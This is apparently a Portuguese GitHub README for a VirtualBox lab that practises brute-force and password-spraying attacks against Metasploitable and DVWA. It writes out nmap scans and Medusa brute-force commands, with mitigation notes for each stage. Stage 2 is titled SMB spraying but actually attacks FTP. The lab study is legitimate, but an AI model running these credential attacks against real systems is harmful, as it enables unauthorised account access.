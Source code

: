 # 💻 Simulação de Ataques em Ambiente Virtual

Este projeto demonstra a configuração de um ambiente virtual para simulação de ataques cibernéticos utilizando ferramentas como Kali Linux, Metasploitable e Medusa. O objetivo é estudar técnicas de força bruta e password spraying em serviços vulneráveis.

## 🧰 Ambiente Utilizado

- **VirtualBox** para virtualização
- **Kali Linux** como máquina atacante
- **Metasploitable** como máquina vulnerável

## 🎯 Objetivos

- Simular ataques de força bruta em FTP
- Automatizar tentativas de login em formulário web (DVWA)
- Realizar password spraying em SMB com enumeração de usuários
- 
---

## 🛠️ Preparação Inicial

Antes de iniciar os testes, é importante garantir que o ambiente virtual esteja corretamente configurado e conectado.

### 🔄 Criar Snapshot de Segurança

Antes de qualquer alteração, crie um **snapshot** no Metasploitable para garantir um ponto de restauração em caso de falhas ou erros durante os testes.

1. Acesse o sistema e clique no campo "Máquina" e em seguida "Criar snapshot".
2. O idel é escrever tudo com letras minúsculas, sem espeço e não utilizar acentos ou caracteres especiais.

```text
configuracaoinicial
```

### 🔐 Acesso ao Metasploitable

1. Inicie a máquina **Metasploitable**.
2. Faça login com as seguintes credenciais:

```text
Usuário: msfadmin  
Senha: msfadmin
```
3. Descubra o ip da máquina

```bash
ip a
```

### 📡 Verificar Conectividade com Kali Linux

Com o ip do Metasploitable faça o teste para verificar a conectividade, no terminal da máquina **Kali Linux**, execute o seguinte comando:

```bash
ping -c 3 192.168.56.101
```

Se o retorno for positivo, o ambiente está pronto para iniciar os testes.

---
## 🔐 Etapa 1: Ataque de Força Bruta em Formulário Web (DVWA)

### 📋 Descrição

Ataque de força bruta para descobrir credenciais de login em um formulário web vulnerável.

### 🧪 Procedimento

1. Acesse o modo desenvolvedor do navegador (`F12`) e vá até a aba **Network** para identificar os parâmetros enviados pelo formulário.
2. Crie listas de usuários e senhas através dos comandos abaixo:

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

3. Execute o ataque com o Medusa utilizando o seguinte comando:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 6
```

4. O Medusa exibirá os testes realizados e indicará o usuário válido através da seguinte mensagem `SUCCESS`.

### 🛡️ Mitigação

- Utilização de bibliotecas de autenticação robustas
- Implementação de CAPTCHA
- Autenticação multifator (2FA)

---

## 🧨 Etapa 2: Password Spraying em SMB com Enumeração de Usuários

### 📋 Descrição

O ataque de password spraying em serviços SMB após enumeração de usuários e portas abertas.

### 🧪 Procedimento

1. Enumere os serviços disponíveis:

```bash
nmap -sV -p 21,80,445,139 192.168.56.101
```

2. Verifique se o serviço FTP está ativo:

```bash
ftp 192.168.56.101
```

3. Crie listas de usuários e senhas:

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

4. Execute o ataque com o Medusa:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```

5. O Medusa indicará sucesso com a mensagem `SUCCESS`.

6. Valide o acesso via FTP com as credenciais obtidas:

```bash
ftp 192.168.56.101
```

### 🛡️ Mitigação

- Políticas de senha fortes (letras, números e caracteres especiais)
- Troca periódica de senhas
- Restrição de tentativas de login

---

## 📎 Observações

Este projeto é apenas para fins educacionais criado a partir dos estudos em cybersecurity.

